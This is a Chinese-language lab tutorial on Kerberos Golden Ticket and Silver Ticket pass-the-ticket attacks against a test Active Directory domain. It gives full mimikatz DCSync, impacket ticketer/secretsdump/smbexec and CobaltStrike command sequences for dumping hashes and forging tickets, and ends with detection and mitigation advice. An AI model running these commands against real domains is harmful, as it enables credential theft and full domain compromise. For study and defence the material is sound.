# 域权限维持之PTT票据传递攻击

在学习域的过程中，我们经常会听到黄金票据攻击，白银票据攻击。那么黄金票据攻击和白银票据攻击到底是什么呢？需要说明的是，无论是黄金票据攻击还是白银票据攻击，都是属于`票据传递攻击(Pass The Ticket，PTT)`，而票据传递攻击是基于 Kerberos 认证的攻击方式。

**黄金票据攻击利用的前提是获得了域内 krbtgt 用户的 NTLM 哈希或 AES Key 值；白银票据攻击利用的前提是获得了域内服务账号的 NTLM 哈希或 AES Key 值。**由于获得域内 krbtgt 用户或服务账号的 NTLM 哈希或 AES Key 值需要高权限，因此票据传递攻击通常用于**域权限维持**。

## 黄金票据(Golden Ticket)攻击

在 Kerberos 认证过程的 AS-REP 阶段，在经过预认证后，KDC 的 AS 认证服务返回的 TGT 认购权证中加密部分 `authorization-data` 是使用 krbtgt 密钥加密的，而 `authorization-data` 中存放着代表用户身份的 PAC，并且在这个阶段 **PAC的 `PAC_SERVER_CHECKSUM` 签名和 `PAC_PRIVSVR_CHECKSUM` 签名的密钥都是 krbtgt 密钥**。如图所示是 AS-REQ&AS-REP 的简要流程：



因此，只要我们能拥有 krbtgt 的密钥，就能够伪造高权限的 PAC，然后将其封装在 TGT 认购权证中。客户端再拿着这个 TGT 认购权证以高权限请求任意服务的服务票据！需要说明的是，**使用 krbtgt 密钥生成高权限的 TGT 认购权证这个过程是离线的，不需要连接 KDC。这个攻击过程被称为黄金票据(Golden Ticket)传递攻击**。

要创建黄金票据，我们需要知道以下信息：

- krbtgt账号的NTLM哈希或AES Key值
- 域的SID值
- 域名
- 要伪造的域用户，一般填写高权限用户，如域管理员

通过在域控上查询我们得到如下信息：

- krbtgt 哈希：badf5dbde4d4cbbd1135cc26d8200238
- 域 sid：S-1-5-21-1313979556-3624129433-4055459191
- 域名：xie.com
- 域管理员：administrator

如下，使用mimikatz获得相关信息：

```
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:krbtgt /csv" "exit" > 1.txt
```

如图所示，通过 mimikatz 执行相关命令查询到 krbtgt 用户的 NTLM 哈希值。以及通过 whoami /all 命令查询出域的 SID 值。



现在我们需要利用这些信息来进行黄金票据传递攻击了。能进行黄金票据传递攻击的工具有很多，这里只介绍使用 impacket、mimikatz 和 CobaltStrike 来进行黄金票据传递攻击。

实验环境如下：

- 域控系统版本：Windows Server 2012R2
- 域控主机名：AD01 • 域控 ip：10.211.55.4
- 域内主机系统版本：Windows10
- 域内主机名：win10
- 域内主机 ip：10.211.55.16

### 1.使用 impacket 进行攻击

我们可以使用 impacket 下的 ticketer.py 脚本来离线生成黄金票据，然后将票据导入内存中，即可使用 secretsdump.py、smbexec.py 等脚本进行后利用。命令如下：

```
#生成黄金票据
python3 ticketer.py -domain-sid S-1-5-21-1313979556-3624129433-4055459191 -nthash badf5dbde4d4cbbd1135cc26d8200238 -domain xie.com administrator

#导入票据
export KRB5CCNAME=administrator.ccache

#导出 administrator 用户的哈希
python3 secretsdump.py -k -no-pass administrator@AD01.xie.com -dc-ip 10.211.55. 4 -just-dc-user administrator

#访问域控 AD01
python3 smbexec.py -no-pass -k administrator@AD01.xie.com -dc-ip 10.211.55.4

#访问域内主机 win10
python3 smbexec.py -no-pass -k administrator@win10.xie.com -dc-ip 10.211.55.4 -codec gbk
```

如图所示，通过 impacket 进行黄金票据攻击，可以看到已经导出了域管理员administrator 的哈希了。



如图所示，通过黄金票据攻击获得了域控 AD01 和域内主机 win10 的最高权限了。



注：这里需要注意的是，需要先在本地 hosts 文件里面添加目标域控 AD01 对应的 ip。如果要访问其他主机，也需要在 hosts 文件里添加其他主机对应的 ip，如图所示是 hosts 文件：



### 2.使用 mimikatz 进行攻击

使用 mimikatz 进行攻击的话，攻击机可以是域中的普通机器，也可以不是域中的机器。当攻击机不在域中时，需要将 DNS 服务器设置为域控。

如图所示，当主机不在域内时，配置其 DNS 服务器为域控 10.211.55.4。



首先执行如下命令可以看到本机并没有权限导出域内任意用户哈希。

```
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:krbtgt /csv" "exit"
```



然后执行如下命令生成黄金票据并导入内存中，就拥有导出任意用户哈希的权限了。

```
mimikatz.exe

#生成并导入黄金票据到当前内存中
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-1313979556-3624129433-4055459191 /krbtgt:badf5dbde4d4cbbd1135cc26d8200238 /ptt

#验证是否成功，导出指定用户哈希
lsadump::dcsync /domain:xie.com /user:krbtgt /csv
```

如图所示，通过黄金票据攻击之后，即有权限导出域内任意用户哈希了！



### 3.使用 CobaltStrike 进行攻击

当使用 CobaltStrike 进行攻击时，上线的机器可以是域中的普通机器，也可以不是域中的机器。当上线的机器不在域中时，需要将该机器的 DNS 服务器设置为域控。命令行设置 DNS 服务器命令如下：

```
netsh interface ip set dns "以太网" static 10.211.55.4
```

如图所示，通过 CobaltStrike 设置当前主机的 DNS 为 10.211.55.4.



如图所示，然后查询即可看到 DNS 服务器此时已经设置为 10.211.55.4 了。



然后如下操作，选中目标 session，然后右键执行——>黄金票据



如图所示，输入相应的信息后，点击 Build。



如图所示，可以看到黄金票据生成并导入内存中了。



然后就可以执行高权限操作了。如图所示，导出域内任意用户哈希。



## 白银票据(Silver Ticket)攻击

在 Kerberos 认证过程的 TGS-REP 阶段，在验证了客户端发来的 TGT 认购权证的真实性和会话安全性后，KDC 的 TGS 票据授予服务将返回指定服务的 ST服务票据。ST 服务票据中加密部分 `authorization-data` 是使用服务密钥加密的，而 `authorization-data` 中存放着代表用户身份的 PAC，并且在这个阶段 PAC 的`PAC_SERVER_CHECKSUM` 签名的密钥也是服务密钥(但是该阶段 PAC 的`PAC_PRIVSVR_CHECKSUM` 签名的密钥是 krbtgt 密钥，此时客户端并不能伪造`PAC_PRIVSVR_CHECKSUM` 签名)。如图所示，是 TGS-REQ&TGS-REP 的简要流程：



因此，只要我们能拥有指定服务的密钥，就能够伪造高权限的 PAC，然后将其封装在 ST 服务票据中，并对其进行 `PAC_SERVER_CHECKSUM` 签名和加密。客户端再拿着这个 ST 服务票据以高权限访问指定服务！这里需要说明的是，由于`PAC_PRIVSVR_CHECKSUM` 签名的验证是可选的，并且默认不开启。因此即使攻击者无法伪造 `PAC_PRIVSVR_CHECKSUM` 签名，也能利用该 ST 服务票据以高权限进行正常请求！这个攻击过程被称为白银票据(Silver Ticket)传递攻击。

要创建白银票据，我们需要知道以下信息：

- 目标服务的密钥
- 域的 SID 值
- 域名
- 要伪造的域用户，一般填写高权限帐户，如域管理员

以下我们进行白银票据攻击使用的服务是域控 AD01 的服务，可以是`LDAP/CIFS/WinRM` 等服务。因此这里的密钥就是域控` AD01$`机器账号的密钥了。当请求的是指定服务如 LDAP 服务时，拥有的权限也只能是指定服务的权限。

通过在域控上查询我们得到如下信息：

- 服务哈希：d5d05db9b06988c17f903ef4847d9367
- 域 sid：S-1-5-21-1313979556-3624129433-4055459191 
- 域名：xie.com
- 域管理员：administrator

如下，使用 mimikatz 获得相关信息:

```
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:AD01$ /csv" "exit" > 1.txt
```

如图所示，通过 mimikatz 执行相关命令查询到机器用户 `AD01$`的 NTLM 哈希值。以及通过 whoami /all 命令查询出域的 SID 值。



现在我们需要利用这些信息来进行白银票据传递攻击了。能进行白银票据传递攻击的工具有很多，这里只介绍使用 impacket、mimikatz 和 CobaltStrike 来进行白银票据传递攻击。

实验环境如下：

- 域控系统版本：Windows Server 2012R2
- 域控主机名：AD01 
- 域控 ip：10.211.55.4

### 1.使用 impacket 进行攻击

我们可以使用 impacket 下的 ticketer.py 脚本来离线生成白银票据，然后将票据导入内存中，即可使用 secretsdump.py、smbexec.py 等脚本进行后利用。命令如下：

```
#生成白银票据
python3 ticketer.py -domain-sid S-1-5-21-1313979556-3624129433-4055459191 -nthash d5d05db9b06988c17f903ef4847d9367 -spn cifs/AD01.xie.com -domain xie.com administrator

#导入票据
export KRB5CCNAME=administrator.ccache

#访问域控 AD01
python3 smbexec.py -no-pass -k administrator@AD01.xie.com -dc-ip 10.211.55.4

#导出 administrator 用户的哈希
python3 secretsdump.py -k -no-pass administrator@AD01.xie.com -dc-ip 10.211.55. 4 -just-dc-user administrator
```

如图所示，对域控 AD01 进行基于 cifs 服务的白银票据攻击，攻击完成后，获得域控的最高权限：



这里由于是白银票据，因此只能访问指定服务，并不能访问其他服务。如下，当尝试访问其他服务时，报错！

注：这里需要注意的是，需要先在本地 hosts 文件里面添加目标域控 AD01 对应的 ip。如果要访问其他主机，也需要在 hosts 文件里添加其他主机对应的 ip，如图所示是 hosts 文件：



### 2.使用 mimikatz 进行攻击

使用 mimikatz 进行攻击的话，攻击机可以是域中的普通机器，也可以不是域中的机器。当攻击机不在域中时，需要将 DNS 服务器设置为域控。

如图所示，当主机不在域内时，配置其 DNS 服务器为域控 10.211.55.4。



首先执行如下命令可以看到本机并没有权限导出域内任意用户哈希。

```
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:krbtgt /csv" "exit"
```



然后执行如下命令生成白银票据并导入内存中，就拥有导出任意用户哈希的权限了。

```
mimikatz.exe

#生成并导入黄金票据到当前内存中
kerberos::golden /domain:xie.com /sid:S-1-5-21-1313979556-3624129433-4055459191 /target:AD01.xie.com /service:ldap /rc4:d5d05db9b06988c17f903ef4847d9367 /user:administrator /ptt

#验证是否成功，导出指定用户哈希
lsadump::dcsync /domain:xie.com /user:krbtgt /csv
```

如图所示，通过对域控的 ldap 服务进行白银票据攻击之后，即有权限导出域内任意用户哈希了！



### 3.使用 CobaltStrike 进行攻击

当使用 CobaltStrike 进行攻击时，上线的机器可以是域中的普通机器，也可以不是域中的机器。当上线的机器不在域中时，需要将该机器的 DNS 服务器设置为域控。命令行设置 DNS 服务器命令如下：

```
netsh interface ip set dns "以太网" static 10.211.55.4
```

如图所示，通过 CobaltStrike 设置当前主机的 DNS 为 10.211.55.4。



如图所示，查询即可看到 DNS 服务器此时已经设置为 10.211.55.4 了。



由于 CobaltStrike 默认自带没有白银票据的功能，因此这里使用插件进行白银票据攻击。



如图所示，输入相应的信息后，点击 Build。



如图所示，可以看到白银票据生成并导入内存中了。



然后就可以执行高权限操作了。如图所示，导出域内任意用户哈希。



## 黄金票据和白银票据的联系和区别

### 1.联系

- 两者都是基于 Kerberos 认证的攻击方式
- 两者都属于票据传递攻击
- 两者都常被用来做后渗透权限维持

### 2.区别

#### (1) 访问权限的不同

- 黄金票据：通过伪造高权限的** TGT** 认购权证，可以以高权限访问**任何服务**。
- 白银票据：通过伪造高权限的** ST** 服务票据，只可以以高权限访问**指定服务**。

#### (2) 加密密钥的不同

- 黄金票据：由于 TGT 认购权证是通过 **krbtgt** 密钥加密的，因此黄金票据利用需要知道 krbtgt 的密钥。
- 白银票据：由于 ST 服务票据是通过**服务**密钥加密的，因此白银票据利用需要知道指定服务的密钥。

#### (3) 日志的不同

- 黄金票据：黄金票据因为只伪造了 TGT 认购权证，因此还需要跟KDC 进行 TGS 认证通信以获得 ST 服务票据，因此**会在 KDC 上留下日志**。
- 白银票据：白银票据通过伪造 ST 服务票据，可以不跟 KDC 进行通信，直接访问指定服务。因此**不会在 KDC 上留下日志，只会在目标服务器上留下日志**。

## 票据传递攻击防御

### 1.黄金票据攻击防御

对于黄金票据攻击来说，由于 TGT 认购权证是在本地离线生成的。因此并没有和 KDC 之间发送 AS-REQ&AS-REP 数据包。所以可以通过这一点，检测Kerberos 认证流程中缺少 AS-REQ&AS-REP 数据包，但最后成功访问服务的请求过程，这种过程可以被判定为是黄金票据攻击。

### 2.白银票据攻击防御

之前我们在 Kerberos 篇中提到了 PAC 有两个签名PAC_SERVER_CHECKSUM 和 PAC_PRIVSVR_CHECKSUM。其中PAC_SERVER_CHECKSUM 是由服务密钥签名的，PAC_PRIVSVR_CHECKSUM是由 krbtgt 密钥签名的。而对于攻击者来说，进行白银票据攻击时只获得了服务密钥，并没有 krbtgt 密钥，因此并不能伪造 PAC_PRIVSVR_CHECKSUM 签名。但是，在默认情况下，PAC_PRIVSVR_CHECKSUM 签名的验证是可选的，并且默认不开启。这也是白银票据攻击能成功的前提。

因此要针对白银票据攻击进行防御，最好的办法就是开启目标服务主机的KDC 验证 PAC 签名